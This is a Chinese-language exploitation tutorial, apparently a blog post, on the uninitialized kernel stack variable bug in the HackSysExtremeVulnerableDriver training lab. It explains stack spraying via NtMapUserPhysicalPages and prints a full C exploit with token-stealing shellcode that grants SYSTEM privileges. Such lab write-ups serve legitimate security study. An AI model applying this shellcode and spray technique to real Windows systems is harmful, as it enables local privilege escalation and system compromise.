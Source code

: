 <small>转载请注明出处哦 :  )</small>

## 0x00 前言
本篇的内容为未初始化内核栈变量漏洞分析利用 (Uninitialized Stack Variable)

## 0x01 未初始化栈变量漏洞分析
首先我们打开 UninitializedMemoryStack.c 文件

![alt 1](images/uninitializedStackVariable/1.jpg)

结合定义 UninitializedMemory 变量时没有对它进行初始化，可以看到，当我们的输入不等于 MagicValue 时，程序会直接 call [&UninitializedMemory + 4]，而这个值因为没有被初始化，又没有被赋值，所以会直接调用栈上的脏数据。若栈上的脏数据是我们的 shellcode 的地址的话，那我们又可以接管指令流了。

问题是，我们有什么办法可以使栈上的脏数据变为我们的 shellcode 的地址呢？

这里可以用到一种叫做栈喷射的方法，将大块的栈空间提前用我们的 shellcode 的地址去改写。以后若是在这个栈区域上发生了对未初始化函数指针的调用，就会执行我们的指令流了。

那么我们如何做到对内核栈进行喷射呢？（因为我们的漏洞是发生在内核模式下的，漏洞代码所使用的栈空间是内核栈，所以应该是对内核栈进行喷射而不是用户栈）

这里可以用到 NtMapUserPhysicalPages 函数。我们先看看这个函数的官方文档

![alt 2](images/uninitializedStackVariable/2.jpg)

这个函数正常来说是用在 AWE 的使用中的。但是这对我们来说不重要，我们的目的是栈喷射。稍微到 wrk1.2 中看看它的源码，我这里大概将与栈喷射相关的伪代码呈现出来

```c
#define COPY_STACK_SIZE             1024

NTSTATUS
NtMapUserPhysicalPages (
    __in PVOID VirtualAddress,
    __in ULONG_PTR NumberOfPages,
    __in_ecount_opt(NumberOfPages) PULONG_PTR UserPfnArray
    )
{
    ...
    ULONG_PTR StackArray[COPY_STACK_SIZE];
    ...
    PoolArea = (PVOID)&StackArray[0];
    ...

    if (NumberOfPages > COPY_STACK_SIZE) {
        PoolArea = ExAllocatePoolWithTag (NonPagedPool, NumberOfBytes, 'wRmM');
    
        if (PoolArea == NULL) {
            return STATUS_INSUFFICIENT_RESOURCES;
        }
    }
    

    Status = MiCaptureUlongPtrArray (PoolArea, UserPfnArray, NumberOfPages);

    ...
}

NTSTATUS
MiCaptureUlongPtrArray (
    OUT PVOID Destination,
    IN PVOID Source,
    IN ULONG_PTR ArraySize
    )
{
    try{
            ProbeForRead (Source,
                          ArraySize * sizeof(ULONG_PTR),
                          sizeof(ULONG_PTR));

            RtlCopyMemory (Destination,
                           Source,
                           ArraySize * sizeof(ULONG_PTR));

    } except(EXCEPTION_EXECUTE_HANDLER) {
        status = GetExceptionCode();
    }
}

```

大致上说，当我们调用 NtMapUserPhysicalPages 时，会在栈中分配一个 4096 个字节的变量 StackArray，而我们调用 NtMapUserPhysicalPages 时传递的参数 UserPfnArray 会被复制到这个位置上。

对于内核栈来说，4096个字节真的已经算挺大的了。若我们把这一段栈空间全部替换成我们的 shellcode 的地址，然后触发漏洞时未初始化变量所使用的栈又正好在这一段地址上，且这个位置的栈又正好没有被其它函数所修改过的话（从 RtlCopyMemory 执行完直到 UninitializedMemory.Callback() ），那么 UninitializedMemory.Callback() 的时候就会执行我们的 shellcode 了。

所以，没错，当我们调用完 NtMapUserPhysicalPages 后若立即调用 DeviceIoControl 去请求服务触发漏洞的话，这一切就是正好这么凑巧。

： )

## 0x02 未初始化栈变量漏洞利用
这个漏洞的利用原理其实挺简单的，但要真正使这个漏洞生效其实不容易。让变量落在这一段空间中倒是挺可能，毕竟 4096 个字节真的挺大的。问题是你很难确保未初始化变量所在的位置没有被其它函数修改过。

这里贴出 exp

```c
#include "stdafx.h"

#include <windows.h>

typedef NTSTATUS(WINAPI * NtMapUserPhysicalPages_t)(
	PVOID      VirtualAddress,
	ULONG_PTR  NumberOfPages,
	PULONG_PTR PageArray
);

char shellcode[] = {

	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad

	"\xC3"                          // ret
	//"\xC2\x10\x00"                  // ret 16
};

int main() {

	int value = 0x1;
	int *payload = &value;
	DWORD lpBytesReturned = 0;
	HANDLE hevDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);

	LPVOID ptr = VirtualAlloc(0, sizeof(shellcode), 0x3000, 0x40);
	RtlCopyMemory(ptr, shellcode, sizeof(shellcode));
	ULONG_PTR PageArray[1024] = { 0 };
	for (int i = 0; i < 1024; i++) {
		PageArray[i] = (ULONG_PTR)ptr;
	}

	HMODULE hModule = LoadLibrary("ntdll.dll");
	if (hModule == NULL) {
		printf("LoadLibrary failed\n");
		return 0;
	}
	NtMapUserPhysicalPages_t NtMapUserPhysicalPages = (NtMapUserPhysicalPages_t)GetProcAddress(hModule, "NtMapUserPhysicalPages");
	if (NtMapUserPhysicalPages == NULL) {
		printf("get proc address failed\n");
		return 0;
	}
	NtMapUserPhysicalPages(NULL, 1024, PageArray);

	DeviceIoControl(hevDevice, 0x22202f, payload, 0x4, NULL, 0, &lpBytesReturned, NULL);

	system("whoami");

	return 0;

}
```

### 关于 exp 无法 getshell 的可能原因
这里我在调试时发现

![alt 3](images/uninitializedStackVariable/3.jpg)

![alt 4](images/uninitializedStackVariable/4.jpg)

![alt 5](images/uninitializedStackVariable/5.jpg)

（这里就不把图片压缩太多了，不然怕你们看不清，所以加载可能会慢一点）

大家可以看到即使是 esp 再往低地址的空间也被什么东西修改过了，要一直到很远

![alt 6](images/uninitializedStackVariable/6.jpg)

才彻底没有被函数修改过。虽然中间可能存在 shellcode 的 gadget，但可以看到我们的漏洞函数的栈中是不存在任何 shellcode 的地址的。

这时候我就在想啊，一来看别人这个方法都是成功的，二来从 NtMapUserPhysicalPages 到 TriggerUninitializedMemoryStack 也就经历退出内核态回到用户态，以及 DriverEntry -> IrpDeviceIoCtlHandler -> UninitializedMemoryStackIoctlHandler -> TriggerUninitializedMemoryStack 这么一个过程，不至于用掉这么多空间吧。要说这过程中有什么东西可能插手的话，就只有可能是 Debug 了。

然后我就把 HEVD 驱动程序换成了 release 版本的，把 windbg 关掉，诶嘿，还真 getshell 了。

所以如果你的情况和我一样的话（首先确保栈喷射确实成功了），你不妨试试去掉所有 debug 因素。

## 0x03 结束语

： )

---
<p align='right'>2019.9.5</p>